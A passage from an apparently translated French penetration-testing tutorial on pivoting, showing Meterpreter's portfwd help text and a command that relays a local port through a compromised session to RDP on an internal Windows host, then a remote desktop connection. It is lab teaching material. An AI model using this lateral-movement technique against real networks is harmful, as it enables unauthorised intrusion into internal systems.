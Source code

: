 ```
Lire les fichiers de données depuis : /usr/bin/../share/nmap
Nmap done : 1 adresse IP (1 hôte actif) scannée en 0,45 seconde

```

* * * * *

Redirection de port
---------------

La redirection de port peut également être effectuée à l'aide du module `portfwd` de Meterpreter. Nous pouvons activer un écouteur sur notre hôte d'attaque et demander à Meterpreter de transférer tous les paquets reçus sur ce port via notre session Meterpreter vers un hôte distantsur le réseau 172.16.5.0/23.

#### Options Portfwd

Options de transfert

```
meterpreter > aide portfwd

Utilisation : portfwd [-h] [ajouter | supprimer | liste | flush] [arguments]

OPTIONS :

     -h Bannière d'aide.
     -i <opt> Index de l'entrée de redirection de port avec laquelle interagir (voir la commande "list").
     -l <opt> Forward : port local à écouter. Inverse : port local auquel se connecter.
     -L <opt> Forward : hôte local sur lequel écouter (optionnel). Inverse : hôte local auquel se connecter.
     -p <opt> Forward : port distant auquel se connecter. Reverse : port distant sur lequel écouter.
     -r <opt> Forward : hôte distant auquel se connecter.
     -R Indique une redirection de port inverse.

```

#### Création d'un relais TCP local

Création d'un relais TCP local

```
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Relais TCP local créé : :3300 <-> 172.16.5.19:3389

```

La commande ci-dessus demande à la session Meterpreter de démarrer un écouteur sur le port local de notre hôte d'attaque (`-l`) `3300` et de transférer tous les paquets vers le serveur Windows distant (`-r`) `172.16.5.19` sur `3389 ` port (`-p`) via notre session Meterpreter. Maintenant, si nous exécutons xfreerdp sur notre localhost:3300, nous pourrons créer une session de bureau à distance.
